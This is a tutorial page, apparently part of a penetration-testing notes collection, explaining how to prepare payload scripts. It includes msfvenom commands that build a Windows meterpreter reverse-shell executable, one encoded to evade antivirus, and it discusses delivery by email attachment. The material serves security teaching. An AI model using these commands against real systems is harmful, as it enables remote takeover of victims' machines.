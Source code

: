# Prepare the payload script to execute on the host


# 👉 Overview

---

### 👀 What ?

> Preparing a payload script to execute on a host is a process used in cybersecurity to test the vulnerability of systems. Essentially, a payload script is a program that carries out malicious or harmful activities on a network after an initial code has been run. The payload script is usually embedded within benign files and is activated when the file is opened or executed.
> 

### 🧐 Why ?

> Understanding and preparing payload scripts is crucial in the field of cybersecurity. It is a method used by ethical hackers or penetration testers to identify vulnerabilities in a system and rectify them before they can be exploited by malicious hackers. By executing a payload script on a host, a cybersecurity professional can understand how an actual attack might unfold and take preventive measures.
> 

### ⛏️ How ?

> To prepare a payload script to execute on a host, first, you need to identify the type of payload you want to use; this could be a reverse shell, a bind shell, or any other type. Next, use a tool like Metasploit to generate the payload script. Once the script is generated, it needs to be embedded in a benign file or delivered to the target system in some way. After the payload script is delivered, it needs to be executed on the target host to carry out its intended function.
> 

### ⏳ When ?

> The practice of preparing and executing payload scripts on a host started with the advent of computer networks and the internet. As cybersecurity threats evolved, so did the methods to counter them. Preparing payload scripts became a common practice among penetration testers and ethical hackers in the late 1990s and early 2000s, as it provided a practical way to test the security of a system.
> 

# ⚙️ Technical Explanations

---

Preparing a payload script involves a series of technical steps. The first is to identify the type of payload. This could be a 'reverse shell' that gives remote control of the system, a 'bind shell' that opens a command line session on the target system, or another script that performs malicious actions.

The choice of payload depends on the goal of the test. If the purpose is to gain remote access to the system, a reverse shell would be appropriate. If the objective is to execute commands directly on the host system, a bind shell might be more suitable.

Once the payload type is decided, a tool like Metasploit is used to generate the payload script. Metasploit is a popular penetration testing software that provides numerous utilities for exploit development and testing.

Creating the payload script with Metasploit involves specifying the payload type, the target system's IP address, and other necessary parameters. This step requires a good understanding of the target system's architecture and potential vulnerabilities.

After the payload script is generated, it's encoded to avoid detection by antivirus software. Encoding involves transforming the payload into a format that appears harmless to antivirus scanners, thereby increasing the chances of the payload reaching and executing on the target system.

The encoded payload script is then embedded within a benign file or delivered to the target system through other methods, such as email attachments or web downloads. The delivery method depends on the specifics of the penetration test and the target system's security measures.

Finally, the payload script is executed on the target system. This can happen automatically when the benign file is opened or manually through some command. The execution activates the payload, allowing it to perform its intended function, whether that's opening a reverse shell, executing harmful commands, or carrying out other malicious actions.

In summary, preparing a payload script for execution on a host involves identifying the payload type, generating the payload script with a tool like Metasploit, encoding the script to evade antivirus detection, delivering the script to the target system, and executing the script on the system to carry out its intended function. Each of these steps requires a deep understanding of both the host's system architecture and potential vulnerabilities, and the various tools and techniques used in penetration testing.

Let's consider a scenario where a penetration tester wants to test a Windows system's vulnerability by using a reverse shell payload. A reverse shell payload would give the tester remote control over the system if successfully executed.

Step 1: Identifying the Payload Type

- In this case, the payload type is a reverse shell.

Step 2: Generating the Payload Script with Metasploit

- Metasploit can be used to generate a reverse shell payload script. The command to do this might look something like this:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port> -f exe > payload.exe

```

- In this command, `windows/meterpreter/reverse_tcp` is the payload type, `LHOST` is the IP address of the system running Metasploit (your system), and `LPORT` is the port on your system that Metasploit will listen to.

Step 3: Encoding the Payload Script

- To help avoid antivirus detection, the payload script is encoded. The encoding can be done within the `msfvenom` command by adding the `e x86/shikata_ga_nai` option, which specifies an encoder to use.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port> -f exe -e x86/shikata_ga_nai > payload.exe

```

Step 4: Delivering the Payload Script

- The payload script (`payload.exe`) is then delivered to the target Windows system. This could be done through an email attachment, a download link, or other means depending on the specifics of the penetration test.

Step 5: Executing the Payload Script

- Upon opening the `payload.exe` file, the payload script is executed on the target system. This would open a reverse shell that allows remote control of the system.

Remember, this is a simplified example for illustrative purposes and actual penetration testing scenarios can be much more complex and require a deep understanding of the systems involved and the tools used.
